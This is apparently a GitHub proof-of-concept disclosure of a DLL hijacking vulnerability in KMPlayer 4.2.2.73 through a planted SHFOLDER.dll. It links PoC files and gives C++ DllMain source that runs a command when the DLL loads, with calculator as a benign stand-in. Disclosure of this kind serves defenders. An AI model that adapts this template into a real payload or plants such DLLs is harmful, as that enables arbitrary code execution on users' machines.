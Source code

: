 # KMPlayer_Poc

## Vendor of the product
PandoraTV.

## The name of an affected Product
KMPlayer x32

## Affected version
KMPlayer_4.2.2.73(Latest)

## Product download address
https://www.kmplayer.com/pc

## Description
KMPlayer  was discovered to contain a DLL hijacking vulnerability that allows attackers to escalate privileges and execute arbitrary code via a crafted DLL.

## Affected component
SHFOLDER.dll

## Vulnerability type
CWE-427: Uncontrolled Search Path Element

## DLL planting vulnerability type
Current Working Directory (CWD) DLL planting 

## POC video
[Youtube](https://youtu.be/7bh2BQOqxFo)

## POC files download
https://drive.google.com/file/d/1bdYaDmtWhnjaHkzv3bZ4PUSMzDJ8JjSV/view?usp=sharing
```bash
kmp32# tree
.
├── KMPlayer_4.2.2.73.exe
├── KMPlayer_poc.mp4
└── SHFOLDER.dll

```

## Poc source code
```C++
// dllmain.cpp
#include "pch.h"
#include <stdlib.h>

BOOL APIENTRY DllMain(HMODULE hModule,
    DWORD  ul_reason_for_call,
    LPVOID lpReserved
)
{
    switch (ul_reason_for_call)
    {
    case DLL_PROCESS_ATTACH:
        system("calc.exe");
        break;
    case DLL_THREAD_ATTACH:
        break;
    case DLL_THREAD_DETACH:
        break;
    case DLL_PROCESS_DETACH:
        break;
    }
    return TRUE;
}
```
